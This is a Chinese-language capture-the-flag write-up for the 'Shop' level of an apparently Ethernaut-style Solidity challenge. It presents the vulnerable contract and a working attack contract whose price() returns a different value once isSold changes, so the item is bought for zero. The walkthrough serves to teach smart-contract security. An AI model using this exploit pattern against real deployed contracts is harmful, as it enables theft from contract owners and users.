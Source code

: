 # Shop

跟第11关很像

## 题目

要求：修改price的值小于100（那我们就修改成0吧）

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

## 分析

我们发现这个题目要求我们修改price的值，并且buy()函数调用了两次接口的price()，price()需要我们去实现。

那么我们就需要第一次返回一个值，第二次返回另外一个不一样的值，以此来达到目的：第一次`_buyer.price() >= price`返回的值应该大于等于100，第二次`price = _buyer.price();`返回的值应该为0。因此我们实现的price()，第一次和第二次调用的结果应该是不一样的

但是接口`function price() external view returns (uint);`的view告诉我们，不可以修改状态变量，因此我们写的内容不可以进行修改状态变量，可以变动的只有`isSold = true;`。那么，我们可以根据这个特点来进行写一个函数，isSold=false的时候返回100，isSold=true的时候返回0

```solidity
function price() external view returns (uint256) {
	return shop.isSold() ? 0 : 100;
}
```

## 攻击代码

使用abstract contract而不是接口，因为写接口然后调用会显示潜在修改状态 state (`function price() external returns(uint256);`)，无法通过编译

```solidity
abstract contract IShop {
    uint public price;
    bool public isSold;
    function buy() external virtual;
}

contract Hack {
    IShop public shop = IShop(0x06A0D2632aF25528392BDDe6c786fb21C3757cF1);

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint256) {
        return shop.isSold() ? 0 : 100;
    }
}
```

## 解题

获取实例，攻击

![image-20230125220407636](21.Shop/image-20230125220407636.png)

成功

![image-20230125220432915](21.Shop/image-20230125220432915.png)
